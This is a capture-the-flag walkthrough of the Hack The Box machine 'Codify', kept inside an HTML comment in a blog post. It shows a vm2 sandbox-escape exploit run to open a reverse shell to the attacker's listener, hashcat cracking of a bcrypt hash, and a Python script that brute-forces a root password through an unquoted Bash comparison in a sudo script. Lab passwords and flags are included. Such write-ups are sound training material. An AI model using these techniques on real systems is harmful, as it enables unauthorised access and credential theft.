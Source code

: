 ```yaml
---
title: HTB - Codify
date: 2023-01-09
categories: [CTF, Fullpwn]
tags: [htb, hackthebox, nmap, http, webserver, mysql, mysqldump, vm2, node-js, hash, hashcat, bcrypt]
img_path: /assets/htb/fullpwn/codify/
published: true
---
```


![room_banner](room_banner.png)

## Overview

|:-:|:-:|
|Machine|[Codify](https://app.hackthebox.com/machines/574)|
|Rank|Easy|
|Focus|-|

> CONTENT HIDDEN - ACTIVE MACHINE!
{: .prompt-warning}

<!-- ## Info gathering

```bash
$ sudo nmap -sS -A -Pn --min-rate 10000 -p- codify

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4
80/tcp   open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://codify.htb/
3000/tcp open  http    Node.js Express framework
|_http-title: Codify
```

Nmap info:
- We have an SSH server available but we will need some form of credentials to use that.
- We have a webserver redirecting to `codify.htb`, so we will have to add that to our `/etc/hosts` file.
- We have port `3000` open which servers Node.js Express. We will need to find out about that.

Let's first add the domain to our `hosts` file:

```bash
$ sudo nano /etc/hosts
$ cat /etc/hosts

<SNIP>
10.10.11.239    codify codify.htb
<SNIP>
```

The website looks likes a sandbox environment for testing Node.js code. It also includes a `Limitations` hyperlink:

![](codify_home.png)

![](limitations_page.png){: .normal width="65%"}

Searching about [Node.js Express](https://expressjs.com/) we did not find anything particularly interesting about it: _it is a minimal and flexible Node.js web application framework that provides a robust set of features for web and mobile applications_. 

## Initial foothold

Enumerating the website, we notice that there is a mention of a `vm2` library in the `About us` page:

![](aboutUs_page.png)

After searching some more details about the `vm2` library, we can find out that there is an [RCE vulnerability](https://security.snyk.io/vuln/SNYK-JS-VM2-5772823) which could not be fixed and the library was [deprecated](https://www.npmjs.com/package/vm2) because of it!

![](vm2_deprecated.png)

There is a public [PoC](https://github.com/rvizx/VM2-Exploit) which includes a video of how to use the exploit. After going through the process, we are able to catch our shell:

```bash
$ python3 exploit.py "curl 'http://codify.htb/run' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://codify.htb/editor' -H 'Content-Type: application/json' -H 'Origin: http://codify.htb' -H 'Connection: keep-alive' --data-raw '{"code":"cmVxdWlyZSgidm0yL3BhY2thZ2UuanNvbiIpLnZlcnNpb24="}'" --ip=10.10.14.9 --port=1337 --base64
```

```bash
$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.11.239] 38114
bash: cannot set terminal process group (1258): Inappropriate ioctl for device
bash: no job control in this shell
svc@codify:~$
```

## Privilege escalation

After enumerating the webserver files, we can find this:

```bash
svc@codify:/var/www/contact$ cat tickets.db
cat tickets.db
�T5��T�format 3@  .WJ
       otableticketsticketsCREATE TABLE tickets (id INTEGER PRIMARY KEY AUTOINCREMENT, name TEXT, topic TEXT, description TEXT, status TEXT)P++Ytablesqlite_sequencesqlite_sequenceCREATE TABLE sqlite_sequence(name,seq)�� tableusersusersCREATE TABLE users (
        id INTEGER PRIMARY KEY AUTOINCREMENT,
        username TEXT UNIQUE,
        password TEXT
��G�joshua$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
��
����ua  users
             ickets
r]r�h%%�Joe WilliamsLocal setup?I use this site lot of the time. Is it possible to set this up locally? Like instead of coming to this site, can I download this and set it up in my own computer? A feature like that would be nice.open� ;�wTom HanksNeed networking modulesI think it would be better if you can implement a way to handle network-based stuff. Would help me out a lot. Thanks!open
```

We can see that there is the hashed password of `joshua`: 

`$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2`.

The first part of the hash indicates the hash type, so if we search for "*$2a\$ hash*" on Google we get [this](https://bitcoinwiki.org/wiki/bcrypt#:~:text=The%20prefix%20%E2%80%9C%242a%24%E2%80%9D,hash%20in%20modular%20crypt%20format.):

*The prefix “$2a\$” or “$2b\$” (or “$2y\$”) in a hash string in a shadow password file indicates that hash string is a **bcrypt** hash in modular crypt format.*

We can now copy this hash into a file and crack it offline:

> We can quickly find `hashcat`'s `bcrypt` mode [here](https://hashcat.net/wiki/doku.php?id=example_hashes).

```bash
$ hashcat -m 3200 hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

<SNIP>

$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2:spongebob1

<SNIP>
```

Now we have managed to crack it, we can log into SSH as `joshua:spongebob1`:

```bash
$ ssh joshua@codify
<SNIP>
joshua@codify:~$ ls
user.txt
joshua@codify:~$ cat user.txt
8f5d17728f3da50c437668e019841c89
```

Let's check if we can run anything with elevated privileges:

```bash
joshua@codify:~$ sudo -l
[sudo] password for joshua:
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
joshua@codify:~$ cat /opt/scripts/mysql-backup.sh
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```

Although we can run `/opt/scripts/mysql-backup.sh` as root, when we do, it asks us for the `root`'s password which we don't have. We can check which services are listening internally and try to enumerate those:

```bash
joshua@codify:~$ netstat -ltn
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN
<SNIP>
```

There is a `MySQL` server listening on port `3306`. Let's try to connect to it:

```bash
joshua@codify:~$ mysql -u joshua -p"spongebob1" -h 127.0.0.1
<SNIP>
mysql> SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
4 rows in set (0.01 sec)

mysql> USE mysql;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> SHOW TABLES;
+---------------------------+
| Tables_in_mysql           |
+---------------------------+
<SNIP>
| user                      |
+---------------------------+
31 rows in set (0.00 sec)

mysql> SHOW COLUMNS FROM user;
+------------------------+---------------------+------+-----+----------+-------+
| Field                  | Type                | Null | Key | Default  | Extra |
+------------------------+---------------------+------+-----+----------+-------+
| Host                   | char(255)           | NO   |     |          |       |
| User                   | char(128)           | NO   |     |          |       |
| Password               | longtext            | YES  |     | NULL     |       |
<SNIP>
+------------------------+---------------------+------+-----+----------+-------+
47 rows in set (0.00 sec)

mysql> SELECT User, Password FROM user WHERE User='root';
+------+-------------------------------------------+
| User | Password                                  |
+------+-------------------------------------------+
| root | *4ECCEBD05161B6782081E970D9D2C72138197218 |
| root | *4ECCEBD05161B6782081E970D9D2C72138197218 |
| root | *4ECCEBD05161B6782081E970D9D2C72138197218 |
+------+-------------------------------------------+
3 rows in set (0.00 sec)
```

We found the `root`'s hash. We can check its type using `hash-identifier`:

```bash
$ hash-identifier
 HASH: 4ECCEBD05161B6782081E970D9D2C72138197218

Possible Hashs:
[+] SHA-1
[+] MySQL5 - SHA-1(SHA-1($pass))
```

Sadly, after trying everything in our toolset, it seems that we can't crack the hash! Let's go back to the `mysql-backup.sh` script. We can try replicating what the script is doing by executing each command ourselves:

```bash
joshua@codify:~$ mysql -u joshua -p'spongebob1' -h 127.0.0.1 -e "SHOW DATABASES;"
mysql: [Warning] Using a password on the command line interface can be insecure.
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mydb               |
| mysql              |
| performance_schema |
| sys                |
+--------------------+

joshua@codify:~$ mysql -u joshua -p'spongebob1' -h 127.0.0.1 -e "SHOW DATABASES;" | grep -Ev "(Database|information_schema|performance_schema)"
mysql: [Warning] Using a password on the command line interface can be insecure.
mydb
mysql
sys
```

So what this script does:
1. Select the `mydb`, `mysql`, and `sys` databases.
2. Exporting them one by one (backing them up) using `mysqldump` and stores them within `/var/backups/mysql` with the name `<db_name>.sql.gz`. 
3. Compress each file using `gzip`.

For executing this process, the `root` user's credentials are used.

> [The complete `mysqldump` guide with examples](https://simplebackups.com/blog/the-complete-mysqldump-guide-with-examples/#what-is-mysqldump).

After some time re-reading the script several times, we realize that there is an issue within the script itself. In particular, within the below lines:

```bash
if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
```

This is an issue known as **unquoted variables**: how double quoted and unquoted variables are interpreted differently in Bash.

> Info about [Quoting Variables](https://tldp.org/LDP/abs/html/quotingvar.html).

Let's see an example, taken from the link above. Below, we create the variable `list` and because we then use it unquoted, instead of echoing the whole list, echoes its elements as separate arguments:

```bash
$ list="one two three"
$ for a in $list # unquoted variable, this is the same as writing "one" "two" "three"
> do
> echo "$a"
> done
one
two
three
```

If we now enclose the `list` variable in double quotes, the command will interpret it as a single argument, echoing the whole list:

```bash
$ for a in "$list" # double-quoted variable
> do
> echo "$a"
> done
one two three
```

> [Bash \| Why should you put shell variables always between quotation marks ? (+ real world example)](https://medium.com/@stefan.paladuta17/bash-why-should-you-put-shell-variables-always-between-quotation-marks-real-world-example-ac794dd53a84).

The unquoted variable issue is the base of the vulnerability that lies within the `[[ $DB_PASS == $USER_PASS ]]` lines. As mentioned [here](https://mywiki.wooledge.org/BashPitfalls#if_.5B.5B_.24foo_.3D_.24bar_.5D.5D_.28depending_on_intent.29): 

_"When the right-hand side of an `=` operator inside [`[[`](https://mywiki.wooledge.org/BashFAQ/031) is not quoted, bash does [**pattern matching**](https://mywiki.wooledge.org/glob) against it, instead of treating it as a string"._

As a result of that, we can create a simple [brute-forcing script](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/htb/fullpwn/codify/brute_force.py) leveraging the ability to "*pattern-match*" each character and obtain `root`'s password:

```python
import subprocess
import string

# create a list with all alphanumeric characters
charList = list(string.ascii_letters + string.digits)
# set initial password as an empty string
password = ""
passwordMissing = True

while passwordMissing:
    # try every character in the list
    for char in charList:
        # define the command to be executed
        command = f"echo '{password}{char}*' | sudo /opt/scripts/mysql-backup.sh"
        # 
        output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout

        # if this message (defined in the `mysql-back.sh` script) is within the output
        if "Password confirmed!" in output:
            # append character in the password variable
            password += char
            # print the current state of the password
            print(password)
            # don't iterate through the rest of the letters and go to next position instead
            break
    else:
        passwordMissing = False
```

By running the script, `root`'s password will be revealed:

```bash
joshua@codify:~$ python3 brute_force.py
[sudo] password for joshua:
k
kl
klj
kljh
kljh1
kljh12
kljh12k
kljh12k3
kljh12k3j
kljh12k3jh
kljh12k3jha
kljh12k3jhas
kljh12k3jhask
kljh12k3jhaskj
kljh12k3jhaskjh
kljh12k3jhaskjh1
kljh12k3jhaskjh12
kljh12k3jhaskjh12k
kljh12k3jhaskjh12kj
kljh12k3jhaskjh12kjh
kljh12k3jhaskjh12kjh3
```

We can now switch to `root` and get the flag:

```bash
joshua@codify:~$ su root
Password:
root@codify:/home/joshua# cat /root/root.txt
1f62fde8d681b1567d8d4e677f7b0c3c
``` -->

![](machine_pwned.png){: width="65%" .normal}
